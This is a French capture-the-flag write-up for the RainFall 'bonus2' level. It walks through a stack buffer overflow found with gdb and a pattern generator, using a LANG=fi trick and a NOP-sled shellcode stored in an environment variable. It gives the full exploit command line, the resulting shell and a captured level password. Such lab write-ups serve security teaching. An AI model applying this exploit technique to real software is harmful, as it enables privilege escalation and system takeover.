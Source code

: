 # Bonus 2

En lanceant le programme on doit mettre deux arguments sinon celui-ci exit. lorsque nous lancont avec 2 string on peut peut voir qu'il concate le premier parametre avec 'Hello'
```
bonus2@RainFall:~$ ./bonus2 
bonus2@RainFall:~$ ./bonus2 test
bonus2@RainFall:~$ ./bonus2 test test1
Hello test
bonus2@RainFall:~$ ./bonus2 test test1 test2
bonus2@RainFall:~$
```
En regardant dans cuter on voit qu'il y a 2 `strcpy` qu'on doit pouvoir overflow, donc maintenant on vas essayer de trouver un `segfault` avec buffer overflow generator.
```
(gdb) r $(cat /tmp/BOgenerator) test
Starting program: /home/user/bonus2/bonus2 $(cat /tmp/BOgenerator) test
Hello Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Atest
[Inferior 1 (process 11401) exited with code 063]
(gdb) r test $(cat /tmp/BOgenerator) 
Starting program: /home/user/bonus2/bonus2 test $(cat /tmp/BOgenerator)
Hello test
[Inferior 1 (process 11404) exited with code 013]
(gdb) r $(cat /tmp/BOgenerator) $(cat /tmp/BOgenerator) 
Starting program: /home/user/bonus2/bonus2 $(cat /tmp/BOgenerator) $(cat /tmp/BOgenerator)
Hello Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2AAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()
```
on ne peut pas exploiter cette adresse, mais on remarque que la vérification de la variable env LANG est stockée dans une variable globale `language` qui est comparer a plusieur valeur pour l'affichage du hello dans les differante langue.

```
bonus2@RainFall:~$ env
[...]
LANG=en_US.UTF-8
[...]
```
On voit que la langue est en Americain nous allons essayer de la passer en `fi`
```
bonus2@RainFall:~$ LANG=fi
bonus2@RainFall:~$ gdb ./bonus2 
gdb) run $(cat /tmp/BOgenerator) $(cat /tmp/BOgenerator)                
Starting program: /home/user/bonus2/bonus2 $(cat /tmp/BOgenerator) $(cat /tmp/BOgenerator)
Hyvää päivää Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2AAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
```
Cette fois ci nous avons une adresse exploitable, lorsque nous la mettons dans buffer overflow generator : https://wiremask.eu/tools/buffer-overflow-pattern-generator/ on optien un offset de 18. On voit dans le programme que le premier argument va être mov dans un buffer de 40 octers. Maintenant il ne nous reste plus qu'a cree un payload qui vas generer un buffer overflow qui y  ira ensuite chercher dans le nopesled le shellcode
```
(gdb) b main 
Breakpoint 1 at 0x804852f
(gdb) run         
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus2/bonus2 $(cat /tmp/BOgenerator) $(cat /tmp/BOgenerator)

Breakpoint 1, 0x0804852f in main ()
(gdb) x/200s environ
[...]
0xbffffc9b:      "payload=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\"...
0xbffffd63:      "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\"...
0xbffffe2b:      "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311\315\200"
0xbffffead:      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
[...]
```
On as donc recuperer notre addresse du nopesled `0xbffffd63` nous allons donc cree un payload qui vas overflow le premier argument en affichant 40 caractere et le segond avec 18 + l'adresse du nopesled
```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print 40*"A"') $(python -c 'print 18*"B" + "\x63\xfd\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBc���
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$   
```
```